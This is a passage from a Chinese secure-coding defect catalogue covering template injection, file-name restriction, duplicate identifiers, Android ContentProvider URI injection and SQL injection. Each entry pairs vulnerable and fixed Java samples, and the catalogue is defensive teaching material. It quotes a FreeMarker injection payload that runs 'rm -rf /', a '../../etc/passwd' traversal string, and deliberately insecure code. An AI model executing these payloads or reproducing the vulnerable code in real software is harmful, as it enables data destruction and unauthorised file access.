  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 使用模板引擎动态生成内容时直接将用户输入作为模板的一部分进行渲染**
**语言: **JAVA

**描述**
在Web应用程序中，当使用模板引擎（如FreeMarker、Velocity等）动态生成内容时，如果直接将用户输入作为模板的一部分进行渲染，而没有进行适当的过滤或转义，攻击者可能通过构造恶意输入注入模板语法，导致模板注入漏洞（Template Injection）。这种漏洞可能导致服务器端代码执行、敏感信息泄露或服务拒绝等安全问题。

**案例分析**
- 风险点：代码直接将用户输入的`username`拼接到模板字符串中，没有进行任何过滤或转义。
- 攻击场景：攻击者可以输入FreeMarker表达式，如`${"7"*7}`，输出将是`"Welcome, 49!"`而不是预期的字符串。更危险的输入如`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("rm -rf /") }`可能导致任意命令执行。攻击者可以访问模板内置对象和方法，泄露敏感信息。
- 影响：任意代码执行，服务器敏感信息泄露，服务拒绝攻击，服务器端请求伪造(SSRF)。

**反例**
```java
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;

import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;

public class TemplateInjectionVulnerability {
    private static final Configuration cfg = new Configuration(Configuration.VERSION_2_3_31);

    public static void main(String[] args) {
        // 模拟用户输入
        String userInput = args.length > 0 ? args[0] : "Guest";
        
        // 有风险的模板处理
        String greeting = processTemplate(userInput);
        Logger.info(greeting);
    }

    public static String processTemplate(String username) {
        try {
            // 直接拼接用户输入到模板中 - 这是危险的！
            String templateStr = "Welcome, " + username + "! Current date: ${.now?string(\"yyyy-MM-dd\")}";
            
            Template template = new Template("greeting", templateStr, cfg);
            Map<String, Object> data = new HashMap<>();
            
            StringWriter out = new StringWriter();
            template.process(data, out);
            return out.toString();
        } catch (IOException | TemplateException e) {
            // ... 处理异常
            return "Error processing template";
        }
    }
}
```

**正例**
```java
import freemarker.template.Configuration;
import freemarker.template.Template;
import freemarker.template.TemplateException;
import org.apache.commons.text.StringEscapeUtils;

import java.io.IOException;
import java.io.StringWriter;
import java.util.HashMap;
import java.util.Map;

public class FixedTemplateProcessing {
    private static final Configuration cfg = new Configuration(Configuration.VERSION_2_3_31);

    static {
        // 安全配置
        cfg.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
        cfg.setTemplateExceptionHandler(TemplateExceptionHandler.RETHROW_HANDLER);
    }

    public static void main(String[] args) {
        // 模拟用户输入
        String userInput = args.length > 0 ? args[0] : "Guest";
        
        // 安全的模板处理
        String greeting = processTemplateSafely(userInput);
        Logger.info(greeting);
    }

    public static String processTemplateSafely(String username) {
        try {
            // 使用预定义模板，将用户输入作为数据模型参数
            String templateStr = "Welcome, ${username?html}! Current date: ${.now?string(\"yyyy-MM-dd\")}";
            
            Template template = new Template("greeting", templateStr, cfg);
            Map<String, Object> data = new HashMap<>();
            // 对用户输入进行转义并放入数据模型
            data.put("username", StringEscapeUtils.escapeHtml4(username));
            
            StringWriter out = new StringWriter();
            template.process(data, out);
            return out.toString();
        } catch (IOException | TemplateException e) {
            // ... 处理异常
            return "Error processing template";
        }
    }
}
```

**修复建议**
- 使用数据模型而非字符串拼接：将用户输入作为数据模型的参数传递给模板，而不是直接拼接到模板字符串中。
- 自动转义：使用 FreeMarker 的内置转义功能`?html`对输出进行HTML转义。
- 安全配置：设置`TemplateClassResolver.SAFER_RESOLVER`限制对危险类的访问，配置安全的异常处理策略。
- 输入验证和过滤：对用户输入进行严格的验证和过滤。

#### CWD-1096-000 模板注入

#### CWD-1096-001 模板注入：FEL(Format-based Execution Language)

#### CWD-1096-002 模板注入：Twig

#### CWD-1096-003 【Drools】使用org.kie.internal.utils.KieHelper下的addContent方法时，参数使用了不可信的外部数据作为模板表达式，通过fireAllRules或fireUntilHalt方法执行后，造成模板注入

#### CWD-1096-004 模板注入：Jinja2

#### CWD-1096-005 模板注入：Pug

#### CWD-1096-006 模板注入：Java Server Pages

#### CWD-1096-007 【Freemarker】使用freemarker.template.Configuration类创建Template对象时，模板文件由不可信的上游提供或上游动态构造，造成模板注入

#### CWD-1096-008 【Velocity】使用org.apache.velocity.app.Velocity、VelocityEngine的evaluate方法时，执行的模板表达式受外部控制，造成模板注入

#### CWD-1096-009 【Velocity】使用org.apache.velocity.app.Velocity、VelocityEngine的mergeTemplate方法时，执行的模板表达式受外部控制，造成模板注入

#### CWD-1096-010 模板注入：ColdFusion

#### CWD-1096-011 模板注入：Smarty

#### CWD-1096-012 模板注入：tornado

#### CWD-1096-013 【Thymeleaf】使用org.thymeleaf.TemplateEngine下的process方法渲染时，参数中的模板受外部控制，造成模板注入

#### CWD-1096-014 【JasperReports】使用net.sf.jasperreports.engine.JasperCompileManager下的compileReport、fillReport方法编译/渲染时，使用了外部输入的不可信Jasper文档，造成模板注入

#### CWD-1096-015 【SpringBoot Thymeleaf】使用org.thymeleaf.spring5.SpringTemplateEngine下的process方法渲染时，参数中的模板受外部控制，造成模板注入

#### CWD-1096-016 【Flowable】通过org.flowable.engine.RuntimeService的startProcessInstanceByKey方法执行外部不受信任的BPMN流程模板造成恶意代码执行

#### CWD-1096-017 【Freemarker】使用com.huawei.us.expression.freemarker.SecurityTemplateProcessor下的process，没有增加防护配置，存在表达式注入

**业界缺陷**

- [CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine](https://cwe.mitre.org/data/definitions/1336.html)
---

# CWD-1098 文件和其他资源的名称限制不当

**别名: **针对可执行文件内容的文件和其他资源名称过滤不足

**描述**
使用上游组件的输入来构造文件或其他资源的名称，但未限制或错误地限制生成的名称。如果这些资源的名称包含脚本字符，也就是说，如果应用程序在客户端的浏览器中显示动态生成的网页上资源的名称，则该脚本可能会被执行。或者，如果资源是由某些应用程序解析器消耗的，那么一个特别精心制作的名称可能会利用解析器内部的某个漏洞，从而可能导致在服务器计算机上执行任意代码。这些问题将根据这些格式错误的资源名称的使用环境以及目标技术中是否存在漏洞或做出了使代码执行成为可能的假设而有所不同。


1. 文件名过长: 如果文件名过长，可能会导致文件无法保存，或者在某些操作系统中无法打开。2. 文件名包含特殊字符: 某些特殊字符可能会导致文件无法保存，或者在某些操作系统中无法打开。3. 文件名包含中文: 在某些操作系统中，文件名包含中文可能会导致文件无法保存，或者在某些应用程序中无法打开。4. 文件名包含空格: 在某些操作系统中，文件名包含空格可能会导致文件无法保存，或者在某些应用程序中无法打开。
**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：不允许用户控制服务器端使用的资源的名称。
- 策略2：设计白名单机制
  在入口点和消耗资源之前执行`allowlist`（`白名单`）输入验证。拒绝坏的文件名，仅允许符合规范的名称通过系统接口，而不是试图清除它们。在设计阶段明确文件/资源命名的规范（如长度、合法字符集、禁止使用的关键字等），并在架构设计中加入名称校验模块。
- 策略3：对关键操作（如文件上传、资源创建）设计强制校验流程，拒绝非法名称请求。

**编码**
- 策略1：输入过滤
  在代码中硬编码或配置化文件名/资源名的校验规则（如`正则表达式`），对所有用户输入的名称进行过滤。
- 策略2：使用安全的API处理
  使用安全的API处理文件路径（如Python的`os.path.normpath`、Java的`Path.getCanonicalPath`），避免路径遍历风险。

**开发者测试**
- 策略1：单元测试
  编写单元测试，覆盖非法名称场景（如空值、特殊字符`../`、超长名称等）。
- 策略2：边界测试
  测试边界条件（如系统允许的最大文件名长度）。

**代码Review**
- 策略1：检查规范化和校验
  Review时重点检查文件/资源操作相关的代码，确认是否对所有输入名称进行了规范化（Normalization）和校验。
- 策略2：检查是否避免直接拼接路径（如禁止`open(user_input + ".log")`）。
- 策略3：确认是否处理了操作系统差异（如Windows/Linux对文件名大小写的敏感度不同）。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 未对输入的文件名进行严格的验证和限制**
**语言: **JAVA

**描述**
在Java应用程序中，当处理文件或其他资源名称时，如果不对输入的文件名进行严格的验证和限制，可能会导致安全问题。攻击者可能通过构造恶意文件名来实施路径遍历攻击（Path Traversal），从而访问或覆盖系统上的敏感文件。

**案例分析**
- 路径遍历风险：攻击者可以通过输入类似`../../etc/passwd`的文件名，尝试访问或覆盖系统敏感文件。
- 缺乏输入验证：代码没有对文件名进行任何验证或过滤，直接拼接路径。
- 目录限制缺失：没有将文件操作限制在特定目录内，可能导致文件被保存到非预期位置。
- 潜在的安全后果：可能导致信息泄露、系统文件被篡改，甚至服务器被完全控制。

**反例**
```java
public class FileHandler {
    public void saveFile(String fileName, String content) {
        try {
            File file = new File("uploads/" + fileName);
            FileWriter writer = new FileWriter(file);
            writer.write(content);
            writer.close();
            Logger.info("文件保存成功: " + file.getAbsolutePath());
        } catch (IOException e) {
            Logger.info("保存文件时出错: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        FileHandler handler = new FileHandler();
        // 用户可控的文件名输入
        handler.saveFile(args[0], "这是文件内容");
    }
}
```

**正例**
```java
public class SecureFileHandler {
    private static final String UPLOAD_DIR = "uploads";
    private static final int MAX_FILENAME_LENGTH = 255;

    public void saveFile(String fileName, String content) throws SecurityException {
        // 验证文件名不为空
        if (fileName == null || fileName.isEmpty()) {
            throw new IllegalArgumentException("文件名不能为空");
        }

        // 验证文件名长度
        if (fileName.length() > MAX_FILENAME_LENGTH) {
            throw new IllegalArgumentException("文件名过长");
        }

        // 验证文件名只包含允许的字符
        if (!fileName.matches("[a-zA-Z0-9._-]+")) {
            throw new IllegalArgumentException("文件名包含非法字符");
        }

        try {
            // 规范化路径，防止路径遍历
            Path uploadPath = Paths.get(UPLOAD_DIR).toAbsolutePath().normalize();
            Path filePath = uploadPath.resolve(fileName).normalize();
            
            // 确保文件路径在指定目录内
            if (!filePath.startsWith(uploadPath)) {
                throw new SecurityException("非法文件路径");
            }

            // 创建目录(如果不存在)
            Files.createDirectories(uploadPath);

            // 写入文件
            File file = filePath.toFile();
            try (FileWriter writer = new FileWriter(file)) {
                writer.write(content);
            }
            
            Logger.info("文件保存成功: " + file.getAbsolutePath());
        } catch (IOException e) {
            Logger.info("保存文件时出错: " + e.getMessage());
        }
    }

    public static void main(String[] args) {
        SecureFileHandler handler = new SecureFileHandler();
        if (args.length > 0) {
            try {
                handler.saveFile(args[0], "这是文件内容");
            } catch (IllegalArgumentException | SecurityException e) {
                Logger.error("错误: " + e.getMessage());
            }
        }
    }
}
```

**修复建议**
- 输入验证：检查文件名是否为空，限制文件名长度，使用正则表达式限制文件名只能包含特定字符（字母、数字、点、下划线、连字符）。
- 路径规范化：使用`Path.normalize()`规范化路径，使用`toAbsolutePath()`获取绝对路径。
- 路径限制：确保最终文件路径在指定的上传目录内，使用`Path.startsWith()`检查路径是否在允许的目录下。

#### CWD-1098-000 文件和其他资源的名称限制不当

**业界缺陷**

- [CWE-641: Improper Restriction of Names for Files and Other Resources](https://cwe.mitre.org/data/definitions/641.html)
---

# CWD-1099 使用具有重复标识符的多个资源

**描述**
在需要唯一标识符的上下文中，使用了具有相同标识符的多个资源。假定每个资源都有一个唯一的标识符，而攻击者可以使多个资源与同一标识符相关联，则可能会在错误的资源上运行，重复的标识符可能允许攻击者绕过保护。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：定义唯一标识符生成规则
  尽可能使用唯一标识符。如果检测到非唯一标识符，则不要操作任何具有非唯一标识符的资源，并适当地报告错误。
- 策略2：引入资源注册机制
  在系统设计时通过中央存储（如资源表）强制检查标识符唯一性。
- 策略3：使用设计模式（如工厂模式）封装资源创建过程，确保生成标识符时自动校验唯一性。

**编码**
- 策略1：在代码中实现唯一性校验函数，在创建资源时实时检查标识符是否已存在（例如通过哈希表或数据库查询）。
- 策略2：使用原子操作或锁机制（如分布式锁）避免并发场景下的重复问题。示例代码：
  ```python
  def create_resource(resource_id):
      if resource_id in existing_resources:
          raise ValueError(f"Duplicate ID: {resource_id}")
      # 创建资源逻辑
  ```

**开发者测试**
- 策略1：编写单元测试
  重复标识符的资源创建是否被拒绝。并发请求下是否保证唯一性。
- 策略2：使用Mock工具模拟资源池，验证异常抛出或日志告警是否触发。

**代码Review**
- 策略1：Review时重点检查
  标识符生成逻辑是否可能冲突（如时间戳、自增ID）。是否遗漏了对重复标识符的异常处理。
- 策略2：确认代码中是否存在硬编码的测试标识符（如`test123`），可能引发生产环境冲突。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: Struts验证表单具有相同的名称**
**语言: **JAVA

**描述**
存在多个同名 `form-bean `条目。`form-bean` 名称重复往往表示遗留调试代码或印刷错误。`form-bean` 名称重复无任何意义，因为当在多个 `<form-bean>` 标签中使用同一名称时，只会注册最后一个条目。

**反例**
```xml
<!--包含两个同名<form-bean>为“loginForm” 条目-->
<form-beans>
  <form-bean name="loginForm" type="org.apache.struts.validator.DynaValidatorForm">
    <form-property name="name" type="java.lang.String" />
    <form-property name="password" type="java.lang.String" />
  </form-bean>
  <form-bean name="loginForm" type="org.apache.struts.validator.DynaActionForm">
    <form-property name="favoriteColor" type="java.lang.String" />
  </form-bean>
</form-beans>
```

**正例**
```xml
<!--删除同名<form-bean>条目，或修改<form-bean>的name-->
<form-beans>
  <form-bean name="loginForm" type="org.apache.struts.validator.DynaValidatorForm">
    <form-property name="name" type="java.lang.String" />
    <form-property name="password" type="java.lang.String" />
  </form-bean>
  <form-bean name="personalHobby" type="org.apache.struts.validator.DynaActionForm">
    <form-property name="favoriteColor" type="java.lang.String" />
  </form-bean>
</form-beans>
```

**修复建议**
- 尽可能使用唯一标识符。如果检测到非唯一标识符，则不要操作任何具有非唯一标识符的资源，并适当地报告错误。

#### CWD-1099-000 使用具有重复标识符的多个资源

#### CWD-1099-001 国际化资源文件（Properties文件）中的重复键名

#### CWD-1099-002 数据库中的重复主键或唯一标识符

#### CWD-1099-003 配置文件中的重复键名

#### CWD-1099-004 JNDI资源中的重复名称

#### CWD-1099-005 类路径中的重复类名

**业界缺陷**

- [CWE-694: Use of Multiple Resources with Duplicate Identifier](https://cwe.mitre.org/data/definitions/694.html)
---

# CWD-1100 Content Provider URI 注入

**描述**
Content Provider 作为 Android 的四大组件之一，常常用来为不同的应用之间数据共享提供统一的接口。在Android系统中各应用的数据是对外隔离的，如果想要访问其它应用的部分数据就需要 ContentProvider，例如应用访问联系人这个功能就用到了 ContentProvider。ContentProvider 的使用类似于数据库的操作，它拥有增删改查的操作，同样的 ContentProvider也具有被注入的风险。构建含有用户输入的 ContentProvider 查询指令会让攻击者能够访问未经授权的内容或者动态构造一个 ContentProvider 查询 URI，造成字符串查询注入。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小化暴露的URI权限
  在`AndroidManifest.xml`中为ContentProvider设置细粒度的`<path-permission>`，仅开放必要的URI路径和操作（如查询、更新）。
- 策略2：动态URI校验
  设计时在Provider中内置URI白名单或正则校验逻辑，拒绝非法格式的URI（如包含`../`或`%2e%2e`的路径遍历）。
- 策略3：默认拒绝策略
  未显式声明的URI路径默认返回空数据或抛出`SecurityException`。

**编码**
- 策略1：参数化查询
  使用`UriMatcher`或`ContentProvider.query()`的参数化查询（如`selectionArgs`），避免直接拼接URI或SQL语句。
- 策略2：路径规范化
  在代码中对输入的URI调用`Uri.normalize()`，防止..或编码字符（如`%2e`）的路径跳跃攻击。
- 策略3：权限检查
  在每个Provider方法中显式校验调用者的权限（如`checkUriPermission()`或自定义权限标签）。

**开发者测试**
- 策略1：URI注入测试用例
  编写单元测试模拟恶意URI（如`content://com.example.provider/../secret`），验证Provider是否拒绝或转义。
- 策略2：边界测试
  测试超长URI、特殊字符（如`#`、`?`）、编码字符（如`%00`）等边界情况。
- 策略3：权限测试
  测试无权限应用访问Provider时是否返回预期错误（如`SecurityException`）。

**代码Review**
- 策略1：重点审查URI处理逻辑
  检查是否所有URI路径均通过`UriMatcher`或显式校验，避免硬编码路径拼接。
- 策略2：检查权限漏洞
  确认所有`<provider>`标签均配置`android:exported`属性（默认应为`false`），并检查动态权限校验是否完备。
- 策略3：日志与错误处理
  确保敏感错误信息（如数据库结构）不会通过异常泄露给调用方。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。
- 策略6：混淆与加固
  使用`ProGuard/R8`混淆`ContentProvider`类名和关键方法，增加逆向分析难度

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: ContentProvider URI未验证导致数据泄露或篡改漏洞**
**语言: **JAVA

**描述**
在Android开发中，ContentProvider是应用间数据共享的重要机制。当开发者未对传入的URI参数进行充分验证时，攻击者可能通过构造恶意URI来访问或修改应用的非公开数据，导致数据泄露或数据篡改。这种漏洞被称为ContentProvider URI注入漏洞。

**案例分析**
- 直接使用未经验证的URI参数：代码直接从URI中获取最后一个路径段作为表名，没有进行任何验证或过滤。
- SQL注入风险：攻击者可以构造类似`content://com.example.vulnerable.provider/data/secret_table`的URI来访问未授权的表。
- 数据泄露风险：如果`ContentProvider`未设置适当的权限，任何应用都可以查询这些数据。
- 权限绕过风险：即使设置了权限，如果URI处理不当，也可能绕过权限检查。

**反例**
```java
public class VulnerableProvider extends ContentProvider {
    private static final String AUTHORITY = "com.example.vulnerable.provider";
    private static final Uri CONTENT_URI = Uri.parse("content://" + AUTHORITY + "/data");
    
    private SQLiteDatabase mDatabase;

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {
        // 危险：直接使用传入的URI构建SQL查询
        String tableName = uri.getLastPathSegment();
        
        // 危险：直接将URI参数拼接到SQL查询中
        return mDatabase.query(tableName, projection, selection, 
                             selectionArgs, null, null, sortOrder);
    }

    // 其他ContentProvider方法实现...
}
```

**正例**
```java
public class SecureProvider extends ContentProvider {
    private static final String AUTHORITY = "com.example.secure.provider";
    private static final Uri CONTENT_URI = Uri.parse("content://" + AUTHORITY + "/data");
    
    // 定义允许访问的表名白名单
    private static final Set<String> ALLOWED_TABLES = new HashSet<String>() {{
        add("public_data");
        add("user_data");
    }};
    
    private SQLiteDatabase mDatabase;

    @Override
    public Cursor query(Uri uri, String[] projection, String selection,
                        String[] selectionArgs, String sortOrder) {
        // 验证URI格式
        if (!AUTHORITY.equals(uri.getAuthority())) {
            throw new IllegalArgumentException("Unknown URI: " + uri);
        }
        
        // 获取并验证表名
        String tableName = uri.getLastPathSegment();
        if (!ALLOWED_TABLES.contains(tableName)) {
            throw new SecurityException("Access to table " + tableName + " is not allowed");
        }
        
        // 使用参数化查询
        return mDatabase.query(tableName, projection, selection, 
                             selectionArgs, null, null, sortOrder);
    }

    // 其他ContentProvider方法实现...

    @Override
    public void onCreate() {
        // 初始化数据库
        // 设置适当的权限
        // 可以添加以下权限声明到AndroidManifest.xml
        // <provider ... android:readPermission="com.example.secure.permission.READ_DATA" />
    }
}
```

**修复建议**
- URI验证：检查传入URI的`authority`是否匹配预期的值。
- 表名白名单：只允许访问预定义的表名集合，拒绝其他所有请求。
- 权限控制：在`AndroidManifest.xml`中为`ContentProvider`设置适当的读写权限。
- 参数化查询：虽然此处`SQLiteDatabase.query`方法本身是安全的，但仍需确保所有数据库操作都使用参数化查询。

#### CWD-1100-000 Content Provider URI 注入

#### CWD-1100-001 直接拼接用户输入构造URI

#### CWD-1100-002 未验证URI路径

#### CWD-1100-003 使用动态查询参数

#### CWD-1100-004 未限制URI权限

#### CWD-1100-005 使用反射或动态类加载

---

# CWD-1101 SQL注入

**别名: **SQL命令中使用的特殊元素中和不当（“SQL注入”）；不可信数据直接拼接SQL语句；未能维持SQL查询结构（“SQL注入”）；SQL命令中使用的特殊元素清理不当（“SQL注入”）

**描述**
<div style="display: flex; align-items: center">
<div style="float: left; width: 80%;">
1. SQL注入（`SQL Injection` 或 `SQLi`）通常允许攻击者从易受攻击的网站中提取整个数据库，包括用户信息、加密密码和业务数据。这可能会导致用户帐户的大规模入侵，数据被加密并持有以进行赎金，或者被盗数据被出售给第三方。许多SQL注入漏洞可以很容易地使用现成的工具被发现和滥用，这使得被利用的可能性更高。2. 当应用程序以不安全的方式将用户数据合并到数据库查询中时，通常会出现SQL注入漏洞。攻击者可以操纵数据查询，从而读取或修改数据库的内容。攻击者也可以提供精心编制的输入，以脱离其输入出现在其中的数据上下文，包括读取或修改关键应用程序数据、干扰应用程序逻辑、提升数据库中的权限以及控制数据库服务器。
</div>
<div style="float: right; width: 30%;">```mermaid
sequenceDiagram
    participant 攻击者
    participant 目标系统

    攻击者->>目标系统: 发送恶意请求（信息收集），分析页面结构和输入字段
    目标系统-->>攻击者: 返回页面内容或数据库错误信息

    攻击者->>目标系统: 发送测试请求（注入点识别），确认注入点
    目标系统-->>攻击者: 返回预期响应

    攻击者->>目标系统: 发送恶意SQL代码（构造攻击）
    目标系统-->>攻击者: 执行恶意SQL并返回数据
```

</div>
</div>**语言: **C,CPP,JAVA,PYTHON

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用库或框架
  使用经过审核的库或框架，防止此弱点发生，或提供更容易避免此弱点的构造函数。例如，可以考虑使用持久层，如Mybatis或Enterprise Java Beans，如果使用得当，它们可以提供显著的防止SQL注入的保护。注：MyBatis需要注意`$`与`#`的区别。
- 策略2：参数化
  使用结构化机制，自动强制数据和代码之间的分离。这些机制能够自动提供相关的引用、编码和验证，而不是依赖开发人员在生成输出的每个点提供这种能力。使用预编译语句、参数化查询或存储过程处理SQL查询。这些特性接受参数或变量，并支持强类型。注：不要使用`exec`或类似功能在这些功能中动态地构造和执行查询字符串。
- 策略3：通过转换执行
  当可接受对象的集合（如文件名或URL）有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名或URL的映射，并拒绝其他所有输入。
- 策略4：最小权限管理
  1. 数据库用户权限最小化，防止攻击者即使注入成功也无法执行高危操作。
  2. 数据库连接权限最小化，不使用管理员权限的数据库连接，为每个应用使用单独权限的数据库连接；
- 策略5：使用安全组件或框架
  使用经过审核的安全组件，防止此弱点发生。例如`Huawei WSF`安全框架，提供的SQL注入防护措施。
  ```xml
  <dependency>
      <groupId>com.huawei.us</groupId>
      <artifactId>us-core</artifactId>
      <version>${version}</version>
  </dependency>
  ```
- 策略6：异常处理
  妥善处理异常，避免泄露敏感信息，防止攻击者利用异常信息进行进一步攻击。数据库相关异常信息不要返回给用户或记录到日志中，使用自定义的错误信息对原始错误信息进行包装。
- 策略7：监控和日志记录
  1. 记录SQL查询：监控所有SQL查询，识别异常模式。
  2. 设置警报机制：对可疑活动设置警报，及时响应潜在攻击。

**编码**
- 策略1：输入验证
  有效性：中
  1. 假设所有输入都是恶意的。使用`接受已知良好`的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找拒绝名单（黑名单）等恶意错误的输入。当代码的环境发生变化时，这很可能会存在不需要的输入，给攻击者提供足够的空间来绕过预期的验证。但是，拒绝名单（黑名单）可以检测潜在的攻击或确定哪些输入格式错误是应该直接被彻底拒绝的。由于黑名单机制本身的限制，该方式无法彻底解决sql注入问题，禁止只使用该方式防御SQL注入。
  4. 在构造SQL查询字符串时，使用严格的允许列表（白名单），根据请求中参数的期望值来限制字符集。这将间接地限制攻击的范围，但这种技术并不像正确的输出编码和转义那么重要。注：尽管输入验证可能提供一些深度防御，但适当的输出编码、转义和引用是防止SQL注入的最有效的解决方案。这是因为输出编码有效地限制了将在输出中出现的内容。输入验证并不总是能防止SQL注入，特别是当需要支持可能包含任意字符的自由格式文本字段时。例如，`O'Reilly`这个名字很可能会通过验证步骤，因为它是英语中常见的姓氏。但是，它不能直接插入到数据库中，因为它包含`'`撇号字符，需要对其进行转义或其他处理。在这种情况下，剥离撇号可能会降低SQL注入的风险，但这会产生不正确的行为，因为将记录错误的名称。
  5. 在可行的情况下，最安全的做法可能是完全禁止元字符，而不是转义元字符。这将提供一些纵深防御。数据输入数据库后，后续进程在使用之前可能忽略了对元字符的转义，并且可能无法控制这些进程。
- 策略2：参数化查询
  有效性：高
  使用参数化查询或者使用存储过程进行数据库操作。注：存储过程不能使用sql语句拼接，否则仍存在sql注入问题。对不能使用参数化查询的特殊场景，在拼接SQL语句时，须对外部进行必要的转码，比如对单引号进行转码。
- 策略3：使用预编译语句
  有效性：高
  在处理数据库查询时，优先使用PreparedStatement，避免直接拼接SQL字符串。
- 策略4：错误信息处理
  模糊错误信息：确保错误信息不暴露数据库结构或敏感数据。
  日志详细记录：记录错误详情，便于后续分析和修复。
- 策略5：遵守安全编码规范
  制定并遵循安全编码规范，禁止在代码中直接拼接SQL语句，强制使用参数化查询。
- 策略6：输出编码
  有效性：高
  1. 虽然使用将控制和数据混合在一起的动态生成的查询字符串、代码或命令是有风险的，但有时这可能是不可避免的。正确引用参数并转义这些参数中的任何特殊字符。最保守的方法是转义或过滤所有没有通过非常严格的允许列表的（白名单）字符（例如所有不是字母数字或空格的字符）。如果仍然需要一些特殊字符（如空格），请在转义/过滤步骤之后用引号将每个参数括起来。注：此处需要小心参数注入(CWD-1069)。
  2. 使用数据库自带的功能实现，而不是构建一个新的实现。
  例如：①`MySQL`的`mysql_real_escape_string()`API函数在C和PHP中都可用。
  ②`Oracle`的`DBMS_ASSERT包`可以检查或强制参数具有使它们不易受到SQL注入攻击的某些属性。
  3. SQL注入相关的特殊字符：
① 常用数据库中与SQL注入攻击相关的特殊字符

| **数据库** | **特殊字符** | **描述** | **转义序列** |
|------------|:------:|----------|--------|
| Oracle     | `'`  | 单引号   | `''`      |
| MySQL      | `'`  | 单引号   | `\'`     |
| MySQL      | `"`  | 双引号   | `\"`     |
| DB2        | `'`  | 单引号   | `''`      |
| DB2        | `;`  | 分号     | `.`       |
| SQL Server | `'`  | 单引号   | `''`      |
| Gauss      | `'`  | 单引号   | `''` 或 `\'`    |
| PostgreSQL | `'`  | 单引号   | `''` 或 `\'`    |

② like条件中的通配符及转义方式

